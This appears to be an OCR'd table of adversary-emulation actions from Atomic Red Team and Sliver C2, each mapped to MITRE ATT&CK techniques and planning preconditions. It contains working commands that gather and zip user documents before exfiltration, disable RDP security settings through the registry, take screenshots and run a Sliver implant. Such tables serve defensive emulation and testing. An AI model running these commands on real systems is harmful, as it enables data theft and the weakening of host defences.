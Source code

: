 | b8cbd2a9-6967-4114-b2b5-162098f74a89 | Take Screenshot | \['T1113'\] | Sliver | \['windows', 'linux', 'macos'\] | \['Collection'\] | \['Screen Capture'\] | The `screenshot()` function takes a screenshot of the remote system with screenshot data in PNG format. | {'executor': 'Sliver Executor', 'command': 'screenshot(#{SessionID})'} | {'SessionID': {'default': None, 'description': 'The session ID of the active Sliver connection.', 'type': None}} | \[{'operator': 'or', 'operands': \['(os_windows ?t - host)', '(os_linux ?t - host)', '(os_macos ?t - host)'\]}, '(sliver_session ?s - executor ?t - host)'\] | \['(screenshot_data_saved ?file - file ?t - host)', '(file_exists ?path - path ?file - file ?t - host)'\] |
| d3d9af44-b8ad-4375-8b0a-4bff4b7e419c | Search files of interest and save them to a single zip file (Windows) | \['T1005'\] | ART | \['windows'\] | \['Collection'\] | \['Data from Local System'\] | This test searches for files of certain extensions and saves them to a single zip file prior to extraction.                              <br> | {'executor': 'Powershell Executor', 'command': '$startingDirectory = "C:"\n$outputZip = "#{output_zip_folder_path}"\n$fileExtensionsString = ".doc, .docx, .txt" \n$fileExtensions = $fileExtensionsString -split ", "\n\nNew-Item -Type Directory $outputZip -ErrorAction Ignore -Force | Out-Null\n\nFunction Search-Files {\n  param (\n    \[string\]$directory\n  )\n  $files = Get-ChildItem -Path $directory -File -Recurse | Where-Object {\n    $fileExtensions -contains $_.Extension.ToLower()\n  }\n  return $files\n}\n\n$foundFiles = Search-Files -directory $startingDirectory\nif ($foundFiles.Count -gt 0) {\n  $foundFilePaths = $foundFiles.FullName\n  Compress-Archive -Path $foundFilePaths -DestinationPath "$outputZip\\data.zip"\n\n  Write-Host "Zip file created: $outputZip\\data.zip"\n  } else {\n      Write-Host "No files found with the specified extensions."\n  }\n'} | {'output_zip_folder_path': {'description': 'Path to directory for saving the generated zip file', 'type': 'Path', 'default': 'PathToAtomicsFolder\\..\\ExternalPayloads\\T1005'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)'\] | \['(certain_extension_data_saved ?file - file ?target - host)', '(file_exists ?output_zip_folder_path - path ?file - file ?target - host)', '(zip_file ?file - file)'\] |
| 2e8f1a9c-0b5e-4a7c-b6d4-9a8b2d3c5f1e | Create Directory | \['T1106'\] | Sliver | \['windows', 'linux'\] | \['Persistence'\] | \['File System Permissions Modification'\] | The `mkdir` command creates a new directory on the target system. | {'executor': 'Sliver Executor', 'command': 'mkdir (#{remote_path},#{SessionID})'} | {'remote_path': {'description': 'Full path of the directory to create'}, 'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \[{'operator': 'or', 'operands': \['(os_windows ?target - host)', '(os_linux ?target - host)'\]}, '(sliver_session ?executorID - executor ?target - host)'\] | \['(dir_exists ?path - path ?dir - dir ?target - host)'\] |
| 41410c60-614d-4b9d-b66e-b0192dd9c597 | Compress Data for Exfiltration With PowerShell | \['T1560'\] | ART | \['windows'\] | \['Collection'\] | \['Archive Collected Data'\] | An adversary may compress data (e.g., sensitive documents) that is collected prior to exfiltration.<br>When the test completes you should find the files from the $env:USERPROFILE directory compressed in a file called T1560-data-ps.zip in the $env:USERPROFILE directory <br> | {'executor': 'Powershell Executor', 'command': 'dir #{input_file} -Recurse | Compress-Archive -DestinationPath #{output_file}\n'} | {'input_file': {'description': 'Path that should be compressed into our output file', 'type': 'path', 'default': '$env:USERPROFILE'}, 'output_file': {'description': 'Path where resulting compressed data should be placed', 'type': 'path', 'default': '$env:USERPROFILE\\T1560-data-ps.zip'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(dir_exists ?input_file - path ?dir - dir ?target - host)'\] | \['(dir_data_saved ?dir - dir ?file - file)', '(file_exists ?output_file - path ?file - file ?target - host)', '(zip_file ?file - file)'\] |
| 4b81bcfa-fb0a-45e9-90c2-e3efe5160140 | Disable Remote Desktop Security Settings Through Registry | \['T1112'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Modify Registry'\] | A modification registry to disable RDP security settings. This technique was seen in DarkGate malware as part of its installation<br> | {'executor': 'Command Prompt Executor', 'command': 'reg add "HKEY_LOCAL_MACHINE\\Software\\Policies\\Microsoft\\Windows NT\\Terminal Services" /v "DisableSecuritySettings" /t REG_DWORD /d 1 /f\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(os_windows ?target - host)'\] | \['(rdp_security_settings_disabled ?target - host)'\] |
| 1f401bbe-de24-41d2-8e34-d026e25bfb94 | Execute a Sliver Implant Payload | \['T1071.001'\] | Sliver | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol - Web Protocols'\] | Executing a Sliver implant payload will establish a Sliver session.<br> | {'executor': 'None', 'command': 'None\n'} | None | \['(sliver_implant_payload ?p - payload ?t - host)', '(file_payload ?p - payload ?f - file)', '(file_executed ?f - file ?t - host)', '(unallocated ?s - executor)'\] | \['(sliver_session ?s - executor ?t - host)', '~(unallocated ?s - executor)', {'operator': 'When', 'params': {'condition': '(file_executed_as_root ?f - file ?t - host)', 'effect': '(elevated_executor ?s - executor)'}}\] |